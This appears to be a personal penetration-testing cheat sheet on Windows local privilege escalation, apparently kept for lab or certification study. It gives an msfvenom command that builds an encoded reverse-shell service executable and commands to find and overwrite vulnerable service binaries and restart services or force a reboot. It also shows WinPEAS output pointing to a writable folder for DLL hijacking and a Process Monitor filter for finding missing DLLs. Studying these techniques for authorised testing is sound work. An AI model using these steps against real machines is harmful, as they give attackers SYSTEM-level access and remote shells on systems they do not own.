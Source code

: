 
MSFVenom payload:
```
msfvenom -p windows/shell_reverse_tcp -e x86/shikata_ga_nai -f exe-service -o winshell.exe LHOST=IP LPORT=PORT
```

Finding a service:
```
// Important: only works in "interactive situations". If it throws an error, it's not interactive. Then, use Winpeas.exe --> "Services Information", always works.
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
// OR
. .\PowerUp.ps1
Get-ModifiableServiceFile                  // might not always work
```

If there is a vulnerable service (overwritable binary), replace the binary.
To start/reboot the service:

```
sc.exe stop ServiceName
sc.exe start ServiceName
```
If this gets denied, check if reboot privileges are enabled:
```
whoami /priv
shutdown /r /t 0
```



#### DLL Hijacking
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking
```
 
   =================================================================================================                   
   
    GammaService(GammaService)[C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe] - System - isDotNet - No quotes and Space detected                                                                                              
    File Permissions: Users [WriteData/CreateFiles]                                                                                                                                                                                            
    Possible DLL Hijacking in binary folder: C:\Program Files\Enterprise Apps\Current Version (Users [WriteData/CreateFiles])                                                                                                                  
   =================================================================================================    
 // PART REMOVED
 // PART REMOVED
 // PART REMOVED 
 Check if you can modify installed software https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#software                                                                                                          
    C:\Program Files\7-Zip                                                                                                                                                                                                                     
    C:\Program Files\Common Files                                                                                                                                                                                                              
    C:\Program Files\desktop.ini                                                                                       
    C:\Program Files\Enterprise Apps(Users [WriteData/CreateFiles])                                                                                                                                                                            
    C:\Program Files\Internet Explorer                                                                                                                                                                                                         
    C:\Program Files\KeePass Password Safe 2                                     
```
The `C:\Program Files\Enterprise Apps` is writable by the user, and hosts DLLs.

To check which DLLs are called, copy the executable to the Windows VM and run Process monitor with these filters:
```
result contains "Not found"
Process Name is "EXECUTABLE_NAME"

```


#### Unquoted service path
[[Unquoted service path]]